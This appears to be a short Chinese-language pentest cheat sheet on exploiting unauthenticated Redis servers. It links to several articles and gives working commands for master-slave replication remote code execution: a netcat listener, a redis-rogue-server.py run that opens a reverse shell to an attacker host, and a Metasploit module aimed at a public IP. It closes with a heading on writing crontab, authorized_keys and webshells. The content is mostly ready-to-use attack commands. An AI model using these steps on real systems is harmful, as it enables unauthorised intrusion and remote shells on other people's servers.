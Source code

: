 [Redis未授权访问漏洞(windows环境](http://mp.weixin.qq.com/s?__biz=MzIwMDcyNzM0Mw==&mid=2247484286&idx=1&sn=6250d89d18ea635bda32e815fdcc5f6d)
[Redis未授权计划任务反弹shell](https://zhuanlan.zhihu.com/p/582582342)
[Redis的漏洞总结(建议收藏)](https://mp.weixin.qq.com/s/wfncezg7Xe4Z4VP7lMxc7Q)
[Redis系列漏洞总结](https://mp.weixin.qq.com/s/O5JVZtTifDri8xGJA08AWA)

# Redis主从复制RCE redis 4.X/5.X

1. by redis-rogue-server.py
```bash
nc -lvvp 6381
python3 redis-rogue-server.py --rhost 192.168.127.129  --rport 6379 --lhost 192.168.127.134 --lport 6381
# reverse shell
# What do u want, [i]nteractive shell or [r]everse shell: r
[info] Open reverse shell...
Reverse server address: 192.168.127.134
Reverse server port: 6381
## [i]nteractive shell 也可以
```

2. by msf
```
sudo msfconsole
use exploit/linux/redis/redis_replication_cmd_exec
set RHOSTS 47.92.135.138
set SRVHOST VPS_IP
set LHOST VPS_IP
exploit
```

# Redis 未授权写入 crontab/authorized_keys/webshell/